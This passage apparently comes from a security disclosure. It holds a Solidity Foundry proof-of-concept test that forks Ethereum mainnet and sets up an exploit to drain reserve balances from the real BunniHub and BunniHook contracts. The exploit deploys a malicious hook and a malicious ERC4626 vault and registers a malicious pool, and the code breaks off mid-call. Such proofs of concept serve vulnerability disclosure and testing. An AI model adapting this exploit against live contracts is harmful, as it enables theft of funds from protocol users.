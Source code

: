 * With all of the above, this test can be run from inside `test/BunniHub.t.sol`:

```solidity
function test_ForkHookHandleSwapDrainRawBalancePoC() public {
    uint256 mainnetFork;
    string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
    mainnetFork = vm.createFork(MAINNET_RPC_URL);
    vm.selectFork(mainnetFork);
    vm.rollFork(22347121);

    address USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address USDCVault = 0x3b028b4b6c567eF5f8Ca1144Da4FbaA0D973F228; // Euler vault

    IERC20 token0 = IERC20(USDC);
    IERC20 token1 = IERC20(WETH);
    poolManager = IPoolManager(0x000000000004444c5dc75cB358380D2e3dE08A90);
    hub = IBunniHub(0x000000DCeb71f3107909b1b748424349bfde5493);
    bunniHook = BunniHook(payable(0x0010d0D5dB05933Fa0D9F7038D365E1541a41888));

    // 1. Create the malicious pool linked to the malicious hook
    bytes32 salt;
    unchecked {
        bytes memory creationCode = abi.encodePacked(type(CustomHook).creationCode);
        uint256 offset;
        while (true) {
            salt = bytes32(offset);
            address deployed = computeAddress(address(this), salt, creationCode);
            if (uint160(bytes20(deployed)) & Hooks.ALL_HOOK_MASK == HOOK_FLAGS && deployed.code.length == 0) {
                break;
            }
            offset++;
        }
    }
    address customHook = address(new CustomHook{salt: salt}());

    // 2. Create the malicious vault
    MaliciousERC4626 maliciousVault = new MaliciousERC4626(token1, customHook);
    token1.approve(address(maliciousVault), type(uint256).max);
    deal(address(token1), address(maliciousVault), 1 ether);

    // 3. Register the malicious pool to steal reserve balances
    (, PoolKey memory maliciousKey) = hub.deployBunniToken(
        IBunniHub.DeployBunniTokenParams({
            currency0: Currency.wrap(address(token0)),
            currency1: Currency.wrap(address(token1)),
            tickSpacing: TICK_SPACING,
            twapSecondsAgo: TWAP_SECONDS_AGO,
            liquidityDensityFunction: new MockLDF(address(hub), address(customHook), address(quoter)),
            hooklet: IHooklet(address(0)),
            ldfType: LDFType.STATIC,
            ldfParams: bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), ALPHA)),
            hooks: BunniHook(payable(customHook)),
            hookParams: "",
            vault0: ERC4626(address(USDCVault)),
            vault1: ERC4626(address(maliciousVault)),
            minRawTokenRatio0: 1e6,         // set to 100% to have all funds in raw balance
            targetRawTokenRatio0: 1e6,      // set to 100% to have all funds in raw balance
            maxRawTokenRatio0: 1e6,         // set to 100% to have all funds in raw balance
            minRawTokenRatio1: 0,           // set to 0% to trigger a deposit upon transferring 1 token
```